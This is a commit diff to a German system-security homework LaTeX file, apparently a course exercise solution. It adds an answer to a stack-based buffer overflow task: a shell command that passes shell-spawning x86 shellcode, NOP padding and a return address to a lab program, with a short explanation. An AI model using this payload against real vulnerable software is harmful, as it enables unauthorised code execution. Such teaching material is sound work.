

Before and after one commit to Lemrator/Homework, a LaTeX document (Übung 3/syssec.tex): part of page 2 of 5 before the commit and two parts of pages 2 and 3 of 5 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Update syssec.tex

```diff
--- a/Übung 3/syssec.tex
+++ b/Übung 3/syssec.tex
@@ -36,6 +36,11 @@ Eine Authentifizierung mithilfe eines Buffer Overflows wie zuvor ist somit nicht
 \end{figure}
 \section*{Aufgabe 3: Shellcode}
 \section*{Aufgabe 4: Stack-Based Buffer Overflow}
+\subsection*{a)}
+Das Programm ''basic\_overflow'' muss folgendermaßen in der Shell eingegeben werden:
+./basic\_overflow \$(python -c 'print "$\backslash$x31$\backslash$xc9$\backslash$xf7$\backslash$xe1$\backslash$x51$\backslash$x68$\backslash$x64$\backslash$x61$\backslash$x73$\backslash$x68$\backslash$x68$\backslash$x2f$\backslash$x2f$\backslash$x2f$\backslash$x2f$\backslash$x68$\backslash$x2f$\backslash$x62$\backslash$x69$\backslash$x6e$\backslash$x89$\backslash$xe3$\backslash$xb0$\backslash$x0b$\backslash$xcd$\backslash$x80" + "$\backslash$x90"*86 + "$\backslash$xcc$\backslash$xce$\backslash$xff$\backslash$xff"')
+Dabei ist das \$-Zeichen zu beachten, welches eine Subshell aufruft, womit man in einem Shellbefehl einen weiteren Befehl ausführen kann.
+Die Angabe ist hier in Little-Endian. Der erste Teil ist der Shellcode (von $\backslash$x31 bis zum ersten +) danach kommt das NOP-Padding. Nach dem Padding kommt die Return-Adresse, welches das Programm ausgibt.
 \section*{Aufgabe 5:  Smashing the Stack for Fun and Exam Prep}
 \subsection*{a)}
 \begin{figure}[h]
```
